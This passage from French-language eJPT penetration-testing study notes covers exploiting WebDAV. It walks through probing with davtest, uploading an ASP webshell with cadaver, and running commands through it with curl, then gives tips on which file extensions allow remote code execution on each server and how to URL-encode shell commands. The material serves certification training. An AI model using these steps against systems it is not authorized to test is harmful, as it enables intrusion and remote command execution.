 ### Scénario 3: WebDAV sans credentials
```bash
# 1. Test accès libre
davtest -url http://target/webdav

# 2. Si accès libre → Upload direct
cadaver http://target/webdav
put shell.asp

# 3. Exploitation
curl "http://target/webdav/shell.asp?cmd=whoami"
```

---

## 💡 14. Conseils et astuces eJPT

### Points critiques WebDAV eJPT
- ✅ **Module Metasploit** = Exploitation automatisée rapide
- ✅ **Extensions ASP/ASPX** = RCE direct sur IIS
- ✅ **davtest** révèle capabilities upload/execute
- ✅ **cadaver** = client interactif parfait
- ✅ **Credentials faibles** très fréquents
- ✅ **dirb alternative** si http-enum lent

### Erreurs courantes à éviter
- ❌ **Oublier URL encoding** dans les commandes
- ❌ **Ignorer extensions** autorisées par davtest
- ❌ **Ne pas tester credentials** par défaut
- ❌ **Upload sans test** d'exécution
- ❌ **Webshell dans mauvais** répertoire

### Extensions critiques par serveur
| Serveur | Extensions RCE |
|---------|----------------|
| **IIS** | .asp, .aspx |
| **Apache** | .php, .pl, .py |
| **Tomcat** | .jsp, .jspx |
| **Generic** | .cgi |

### URL Encoding essentiel
```bash
# Caractères à encoder
espace = +  ou  %20
:      = %3A
\      = %5C
/      = %2F
"      = %22

# Exemples
dir C:\        → dir+C%3A%5C
type "file"    → type+%22file%22
cd "Program Files" → cd+%22Program+Files%22
```
